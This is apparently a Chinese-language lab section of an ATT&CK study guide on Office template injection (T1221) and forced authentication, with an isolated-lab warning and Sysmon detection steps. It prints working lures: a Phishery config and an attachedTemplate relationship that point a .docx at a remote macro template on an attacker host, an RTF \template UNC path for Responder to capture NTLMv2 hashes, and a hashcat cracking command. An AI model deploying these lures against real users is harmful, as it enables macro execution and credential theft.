> ⚠️ **重要提示**：所有实验必须在隔离的实验室环境中进行，禁止对未授权的真实系统进行测试。捕获NTLM哈希的实验需要专用虚拟网络，禁止连接互联网或生产网络。

### 实验环境准备

**所需工具与环境：**
- Windows 10/11虚拟机（启用Sysmon日志，安装Microsoft Office）
- Kali Linux虚拟机（用于模拟攻击者服务器）
- 隔离的虚拟网络（两台虚拟机可互通但无法访问互联网）
- [Phishery](https://github.com/ryhanson/phishery)（开源模板注入工具）
- 7-Zip（手动修改OOXML文件）
- Responder（用于NTLM哈希捕获实验）

### 实验1：使用Phishery实施OOXML模板注入（初级）

**实验目标：** 理解T1221 OOXML模板注入的原理，使用开源工具完成一次完整的模板注入攻击

**实验步骤：**
1. 在Kali Linux上启动一个简单的HTTPS服务器，放置一个含宏的.dotm文件
   ```bash
   python3 -m http.server 443
   ```
2. 准备一个正常的.docx文件（如`test.docx`），作为载体文档
3. 使用Phishery注入远程模板URL：
   ```bash
   # 编辑phishery.json配置文件
   {
       "template": "https://<kali-ip>/malicious.dotm",
       "input": "test.docx",
       "output": "injected.docx"
   }
   # 执行注入
   ./phishery -c phishery.json
   ```
4. 在Windows虚拟机上打开生成的`injected.docx`
5. 观察Kali Linux上的HTTP服务器日志，确认Word程序发起了对`malicious.dotm`的请求
6. 检查Sysmon Event ID 3日志，确认`winword.exe`的网络连接被记录

**预期结果：** Word打开`injected.docx`后自动向Kali服务器请求模板，HTTP日志与Sysmon日志均记录该行为

**学习要点：** 理解OOXML文件结构、模板引用机制，以及如何通过修改`document.xml.rels`实现模板注入

### 实验2：手动修改OOXML文件理解攻击原理（中级）

**实验目标：** 通过手动修改OOXML文件，深入理解模板注入的内部机制

**实验步骤：**
1. 复制一个正常的.docx文件（如`sample.docx`）
2. 使用7-Zip打开`sample.docx`（OOXML本质是ZIP包）
3. 进入`word/_rels/`目录，找到`document.xml.rels`
4. 编辑`document.xml.rels`，添加或修改一个`attachedTemplate`关系：
   ```xml
   <Relationship Id="rId1337"
       Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate"
       Target="https://<kali-ip>/malicious.dotm"
       TargetMode="External"/>
   ```
5. 保存修改后的.docx文件（7-Zip会更新ZIP包内的文件）
6. 在Windows虚拟机上打开修改后的.docx，观察Word的网络请求行为

**预期结果：** Word根据rels文件中的`attachedTemplate`关系自动请求远程模板

**学习要点：** 深入理解OOXML的内部XML结构与关系定义机制

### 实验3：RTF模板注入与强制认证（高级）

**实验目标：** 理解RTF模板注入与强制认证变种的攻击机制，学习NTLM哈希捕获

**实验步骤：**
1. 在Kali Linux上启动Responder监听SMB端口：
   ```bash
   sudo responder -I eth0
   ```
2. 准备一个简单的RTF文件，注入SMB UNC路径：
   ```
   {\rtf1\ansi\ansicpg936\deff0
   {\fonttbl{\f0\fnil\fcharset134 SimSun;}}
   \*\template \\<kali-ip>\share\template.dot
   \f0\fs180 这是测试文档}
   ```
3. 保存为`test.rtf`
4. 在Windows虚拟机上用Word打开`test.rtf`
5. 观察Kali Linux上Responder的输出，确认NTLMv2哈希被捕获
6. 使用hashcat尝试离线破解捕获的哈希：
   ```bash
   hashcat -m 5600 captured.txt wordlist.txt
   ```

**预期结果：** Word打开`test.rtf`后向Kali发起SMB连接，Responder捕获NTLMv2哈希

**学习要点：** 理解RTF模板注入机制、NTLM认证流程与哈希捕获原理

> **注：** 真实攻击案例已在上方"真实攻击场景"章节中详细描述，涵盖APT28、DarkHydrus、Dragonfly、Gamaredon、MirrorFace、Lazarus、Chaes等组织在2018-2024年间的模板注入攻击活动。

## 术语解释

| 术语 | 英文原名 | 通俗解释 |
|------|----------|----------|
| 模板注入 | Template Injection | 修改Office文档内部的模板引用，使其打开时自动加载攻击者控制的远程模板 |
| OOXML | Office Open XML | Microsoft Office 2007+使用的XML文档格式，本质是ZIP压缩包 |
| attachedTemplate | Attached Template | OOXML文档中定义关联模板文件的关系项 |
| RTF | Rich Text Format | 富文本格式，跨平台的文档交换格式 |
| `*\template`控制字 | RTF template control word | RTF文件中指定模板文件路径的合法控制字 |
| 远程模板 | Remote Template | 存储在远程服务器上的Office模板文件，Word打开文档时自动下载 |
| 强制认证 | Forced Authentication | 通过诱导目标程序发起认证请求以捕获其凭证哈希的技术（T1187） |
| NTLM哈希 | NTLM Hash | Windows NT LAN Manager认证中使用的密码哈希 |
| NTLM Relay | NTLM Relay | 中继捕获的NTLM认证到其他服务以获取访问权限的攻击技术 |
| Phishery | Phishery | 开源的模板注入工具，可一键向.docx文件注入远程模板URL |
| Responder | Responder | 用于捕获NTLM哈希的渗透测试工具，常配合模板注入强制认证变种使用 |
| DOTM | DOTM | 含宏的Microsoft Word模板文件 |
| 沙箱规避 | Sandbox Evasion | 模板注入的副作用——静态沙箱因无网络出站能力而错过恶意行为 |

## 参考资料

### 📚 官方文档（深入了解）

- [MITRE ATT&CK - T1221 Template Injection](https://attack.mitre.org/techniques/T1221/)
- [MITRE ATT&CK - TA0005 Stealth](https://attack.mitre.org/tactics/TA0005/)
- [MITRE ATT&CK - DET0566 Template Injection Detection](https://attack.mitre.org/detectionstrategies/DET0566)
- [MITRE ATT&CK - T1187 Forced Authentication](https://attack.mitre.org/techniques/T1187/)
- [Microsoft - Introducing the Office (2007) Open XML File Formats](https://docs.microsoft.com/previous-versions/office/developer/office-2007/aa338205\(v=office.12\))
- [ECMA-376 - Office Open XML File Formats](https://www.ecma-international.org/publications-and-standards/standards/ecma-376/)

### 📰 安全报告（真实攻击）

- [Wiltse, B. - Template Injection Attacks - Bypassing Security Controls by Living off the Land (SANS)](https://www.sans.org/reading-room/whitepapers/testing/template-injection-attacks-bypassing-security-controls-living-land-38780)
- [Hawkins, J. - Executing Macros From a DOCX With Remote Template Injection](http://blog.redxorblue.com/2018/07/executing-macros-from-docx-with-remote.html)
- [Raggi, M. - Injection is the New Black: Novel RTF Template Inject Technique (Proofpoint)](https://www.proofpoint.com/us/blog/threat-insight/injection-new-black-novel-rtf-template-inject-technique-poised-widespread)
- [Baird, S. et al. - Attack on Critical Infrastructure Leverages Template Injection (Talos)](https://blog.talosintelligence.com/2017/07/template-injection.html)
- [Palo Alto Unit 42 - Dear Joohn: The Sofacy Group's Global Campaign](https://unit42.paloaltonetworks.com/dear-joohn-sofacy-groups-global-campaign/)
- [Palo Alto Unit 42 - DarkHydrus Uses Phishery to Harvest Credentials](https://researchcenter.paloaltonetworks.com/2018/08/unit42-darkhydrus-uses-phishery-harvest-credentials-middle-east/)
- [US-CERT Alert TA18-074A - Russian Government Cyber Activity Targeting Energy](https://www.us-cert.gov/ncas/alerts/TA18-074A)
- [ESET - Cyberespionage the Gamaredon Way](https://web-assets.esetstatic.com/wls/en/papers/white-papers/cyberespionage-gamaredon-way.pdf)
- [Cybereason - CHAES: Novel Malware Targeting Latin American E-Commerce](https://www.cybereason.com/hubfs/dam/collateral/reports/11-2020-Chaes-e-commerce-malware-research.pdf)
- [ClearSky - Operation Dream Job Campaign](https://www.clearskysec.com/wp-content/uploads/2020/08/Dream-Job-Campaign.pdf)
- [ITOCHU - LODEINFO v0.6.6 - v0.7.3 Analysis](https://blog-en.itochuci.co.jp/entry/2024/01/24/134100)
- [Talos - Frankenstein Campaign](https://blog.talosintelligence.com/2019/06/frankenstein-campaign.html)
- [Anomali - Credential Harvesting via Microsoft Office Template Injection](https://forum.anomali.com/t/credential-harvesting-and-malicious-file-delivery-using-microsoft-office-template-injection/2104)

### 🔧 工具与资源（动手试试）

- [Phishery](https://github.com/ryhanson/phishery) - 开源的.docx远程模板注入工具
- [Responder](https://github.com/lgandx/Responder) - NTLM哈希捕获工具（用于强制认证变种实验）
- [Inveigh](https://github.com/Kevin-Robertson/Inveigh) - Windows平台NTLM劫持工具
- [Impacket ntlmrelayx](https://github.com/SecureAuthCorp/impacket) - NTLM Relay攻击工具
- [Sysinternals Sysmon](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon) - 系统活动监控
- [Sigma Rules](https://github.com/SigmaHQ/sigma) - 通用检测规则格式
- [Atomic Red Team - T1221 Tests](https://atomicredteam.io/techniques/T1221/) - 可执行的检测测试用例
- [Malwarebytes - Decoy Microsoft Word Document Analysis](https://blog.malwarebytes.com/threat-analysis/2017/10/decoy-microsoft-word-document-delivers-malware-through-rat/)

## 相关技术

- **[T1187 强制认证](../09-Credential-Access/T1187-Forced-Authentication.md)**：模板注入的核心变种之一——通过注入SMB/HTTPS URL触发NTLM认证，盗取用户凭证哈希。T1221+T1187是经典的组合攻击
- **[T1566 钓鱼](../03-Initial-Access/T1566-Phishing.md)**：模板注入的主要投递方式——通过鱼叉式钓鱼邮件将恶意文档送达目标用户
- **[T1080 污染共享内容](../08-Lateral-Movement/T1080-Taint-Shared-Content.md)**：模板注入的另一种投递渠道——通过共享文件夹污染合法文档
- **[T1027 混淆文件或信息](./T1027-Obfuscated-Files-or-Info.md)**：模板注入的"分体式"思路与代码混淆异曲同工——都试图让静态扫描看不到恶意内容
- **[T1204 用户执行](../04-Execution/T1204-User-Execution.md)**：模板注入通常需要用户主动打开文档，触发用户执行
- **[T1059 命令与脚本解释器](../04-Execution/T1059-Command-and-Scripting-Interpreter.md)**：模板注入下载的远程模板中的宏代码常通过PowerShell/cmd执行后续命令
- **[T1556 修改认证过程](../08-Defense-Impairment/T1556-Modify-Authentication-Process.md)**：强制认证变种与认证过程操纵相关，两者都属于凭证访问与防御削弱范畴
- **[T1218 系统二进制代理执行](./T1218-System-Binary-Proxy-Execution.md)**：模板注入下载的载荷常通过rundll32/regsvr32等系统工具代理执行
